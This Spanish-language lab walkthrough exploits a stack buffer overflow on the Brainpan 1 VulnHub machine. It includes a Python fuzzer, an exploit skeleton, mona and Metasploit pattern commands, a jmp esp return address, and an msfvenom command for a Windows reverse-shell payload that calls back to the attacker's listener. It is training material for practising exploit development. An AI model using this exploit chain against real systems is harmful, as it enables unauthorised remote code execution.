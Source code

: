 Para explotar un BoF, vamos a estar utilizando la máquina brainpan de la plataforma vulnhub:
```bash
https://www.vulnhub.com/entry/brainpan-1,51/
```
![[Pasted image 20231201132955.png]]
Hacemos el escaneo con nmap:
![[Pasted image 20231130105922.png]]
Accedemos al contenido del puerto 10000 ya que vemos que corre algo por HTTP:
![[Pasted image 20231130105957.png]]
Realizamos fuzzing web y encontramos el directorio /bin:
![[Pasted image 20231130110024.png]]
Vamos a ejecutar este binario dentro de una máquina windows para analizarlo mejor:
![[Pasted image 20231130110044.png]]
Y vemos que lo que hace es levantar un servicio por el puerto 9999 (puerto que ya estaba abierto en la máquina objetivo). Para ello lo compartimos con una máquina windows 7 para ejecutarlo desde ahí:
![[Pasted image 20231130110205.png]]
![[Pasted image 20231130110250.png]]
Y lo ejecutamos, donde podemos confirmar cómo se levanta un servicio por el puerto 9999:
![[Pasted image 20231130110407.png]]
El siguiente paso será instalar el inmunity debugger en la máquina windows para monitorear el programa, ya que el objetivo es ejecutar el binario para identificar si dispone de alguna vulnerabilidad que permita lanzar un shellcode contra nuestro verdadero target:
![[Pasted image 20231130110510.png]]
Una vez ejecutado el programa y habiéndolo cargado anteriormente, lanzamos un escaneo de nmap contra la máquina windows y vemos que inmunnity debugger lo tiene ejecutado por el mismo puerto:
![[Pasted image 20231130110407.png]]
El siguiente paso será establecer un directorio de trabajo donde vamos a trabajar con el inmunity debugger, por lo que hay que ejecutar el siguiente comando:
```python
!mona config -set workingfolder C:\Users\mario\Desktop\BOF
```
![[Pasted image 20231201102345.png]]
Y también debemos configurar el mona, lo cual será el script que nos permita aplicar filtros y realizar comprobaciones más adelante, por lo que debemos dirigirnos al siguiente repositorio de github:
![[Pasted image 20231201110335.png]]
Nos descargamos el script de mona:
![[Pasted image 20231201110353.png]]
Y lo pegamos dentro de la carpeta de PyCommands del inmunity debugger:
![[Pasted image 20231130155816.png]]
El siguiente paso será utilizar un script de python para realizar el fuzzing para ir probando en qué punto se crashea el programa:
```python
#!/usr/bin/env python3
  
import socket, time, sys

ip = "192.168.0.39"  
port = 9999
timeout = 1
prefix = ""
  
string = prefix + "A" * 100
  
while True:
   try:
     with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
       s.settimeout(timeout)
       s.connect((ip, port))
       s.recv(1024)
       print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
       s.send(bytes(string, "latin-1"))
       s.recv(1024)
   except:
     print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
     sys.exit(0)
   string += 100 * "A"
   time.sleep(1)
```
Lo ejecutamos y vemos que el programa crashea a los 600 bytes:
![[Pasted image 20231130110825.png]]
Una vez ejecutado vemos que el EIP marca 414141, lo cual es lo que debe ocurrir:
![[Pasted image 20230906192346.png]]
## OBTENER EL OFFSET
Una vez obtenido el punto exacto donde crashea el programa, vamos a necesitar el offset; y para ello vamos a enviar un número de esa data algo mayor, por lo que por ejemplo vamos a sumar +400 bytes.

---------------------------

Para este punto, vamos a necesitar otro script de python, que será el siguiente:
```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")

```
Y ahora en nuestra terminal vamos a ejecutar un módulo de metasploit llamado pattern_create.rb donde insertaremos los 1000 bytes:
```python
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```
![[Pasted image 20231201100104.png]]
Y ahora esta data la vamos a pegar dentro de la variable Payload del script de python mostrado anteriormente:
![[Pasted image 20231201100147.png]]
Ahora nos dirigimos al Immunity Debugger y ejecutamos el siguiente comando de mona:
```python
!mona findmsp -distance 600
```
Ejecutamos este exploit:
![[Pasted image 20231201100459.png]]
Y en el inmunnity debugger nos debería de salir otro número en el EIP:
![[Pasted image 20231201101012.png]]
Una vez obtenido el EIP, ya podemos obtener el offset ejecutando este comando:
```python
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 72413172
```
![[Pasted image 20231201101101.png]]
Lo añadimos a nuestro exploit, además de añadir BBBB en la variable retn:
![[Pasted image 20231201101201.png]]
Lanzamos nuevamente el exploit:
![[Pasted image 20231201101444.png]]
Y deberíamos de tener este resultado en el EIP:
![[Pasted image 20231201101501.png]]
## BAD CHARS
El siguiente paso será obtener los bad chars, lo cual consiste en que para ciertos servicios existen algunos caracteres que no se aceptan, provocando una ejecución errónea cuando generamos la shellcode. Estos caracteres se denomina bad character y debemos de eliminarlos de nuestro exploit.

------------------------------

Para testearlo, vamos a instalar la librería badchars de python:
![[Pasted image 20230906194513.png]]
Y con este comando generamos las badchars totales:
![[Pasted image 20230906194536.png]]
Y añadimos esto dentro de nuesto script de python en la variable payload:
![[Pasted image 20230906195052.png]]
Y ahora vamos ejecutar el siguiente comando en el Immunity !mona bytearray -b "\x00" para que tenga un archivo con el que comparar el de la aplicación, y si hay algún bad char nos lo llegaría a mostrar:
```bash
!mona bytearray -b "\x00"
```
![[Pasted image 20231201102116.png]]
Y vemos que se nos guarda este reporte en el archivo llamado bytearray (gracias a que al principio del todo hemos establecido el entorno de trabajo):
![[Pasted image 20231201102504.png]]
Reiniciamos el binario en el inmmunity debugger:
![[Pasted image 20231130152020.png]]
Lanzamos nuevamente el exploit y nos fijamos en el número ESP:
![[Pasted image 20231201102609.png]]
![[Pasted image 20231201102638.png]]
Una vez obtenido el número de ESP, ejecutamos el siguiente comando para comprobar la existencia de bad characters:
```python
!mona compare -f C:\Users\mario\Desktop\BOF\bytearray.bin -a 005FF910
```
Y se nos debería abrir esta ventana:
![[Pasted image 20231201103106.png]]
Y no tenemos ningún bad char (a excepción del \x00 que ese siempre es bad char):
![[Pasted image 20231201103134.png]]
Si hubiera algún bad char, habría que quitarlo del exploit:
![[Pasted image 20231201103240.png]]
## POINTER
Ahora tenemos que darle un punto de salto donde ejecutar, con este comando estaríamos buscando las instrucciones de "jmp esp". Por lo que ejecutamos el siguiente comando, con los badchars que nos haya aparecido anteriormente (en nuestro caso cómo mínimo es el x00 ya que este número siempre es un bad char):
```python
!mona jmp -r esp -cpb "\x00"
```
Y se nos muestra el pointer, el cual es 0x311712f3:
![[Pasted image 20231201103636.png]]
Ahora volvemos a ejecutar el programa haciendo clic en el siguiente botón, donde se nos debería abrir un apartado para insertar datos:
![[Pasted image 20231201103842.png]]
Aquí pondremos el pointer obtenido anteriormente:
![[Pasted image 20231201103911.png]]
Damos a OK y nos fijamos en el siguiente campo:
![[Pasted image 20231201103959.png]]
Lo seleccionamos y hacemos clic en F2, donde a continuación le daremos al play:
![[Pasted image 20231201104056.png]]
## GENERAR SHELLCODE
Ahora ya lo tenemos todo preparado para generar el shellcode, por lo que usaremos msfvenom de la siguiente forma:
```python
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.32 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
![[Pasted image 20231201104319.png]]
Pegamos este resultado en la variable payload del exploit.py:
![[Pasted image 20231201104514.png]]
Y cambiamos las siguientes variables, donde la variable retn es el número del jmp que vimos anteriormente pero al revés:
```python
retn= "\xf3\x12\x17\x31"
padding = "\x90" * 16
```
![[Pasted image 20231201104946.png]]
Ponemos la IP real del objetivo (ya no estamos testeando con el inmunity debugger, sino que atacaremos al target real):
![[Pasted image 20231201105050.png]]
Lo ejecutamos:
![[Pasted image 20231201105126.png]]
Y mientrar estamos escuchando con netcat, habremos recibido la reverse shell gracias al shellcode generado anteriormente:
![[Pasted image 20231201105139.png]]

























